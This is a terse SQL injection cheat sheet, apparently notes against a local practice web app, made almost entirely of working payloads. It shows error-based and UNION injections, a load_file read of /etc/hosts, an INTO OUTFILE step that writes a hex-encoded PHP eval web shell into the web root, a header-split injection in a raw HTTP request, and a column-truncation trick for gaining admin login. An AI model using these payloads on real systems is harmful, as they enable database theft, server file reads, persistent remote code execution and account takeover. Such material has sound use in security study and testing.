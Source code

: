 Error-based - http://127.0.0.1:8088/user.php?username='|updatexml(0,concat(0x1,version()),2)|'&submit=

UNION based - http://127.0.0.1:8088/user.php?username='+union+select+1,user(),3,4--+f&submit=

File read - http://127.0.0.1:8088/user.php?username='+union+select+1,load_file('/etc/hosts'),3,4--+f&submit=

WebShell upload - http://127.0.0.1:8088/user.php?username='+union+select+1,0x3c3f706870206576616c28245f504f53545b315d293b203f3e,3,4+into+outfile+'/var/www/html/shell.php'--+f&submit=

Fragmented SQL-inj:

GET /userdata.php HTTP/1.1
Host: 127.0.0.1:8088
User-Agent: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\
Referer: ,user())-- f
Connection: close


Column Truncation:

Register with "root      x" username and login with "root      " - you are admin now!



(SQL injection полный FAQ)[https://rdot.org/forum/showthread.php?t=124]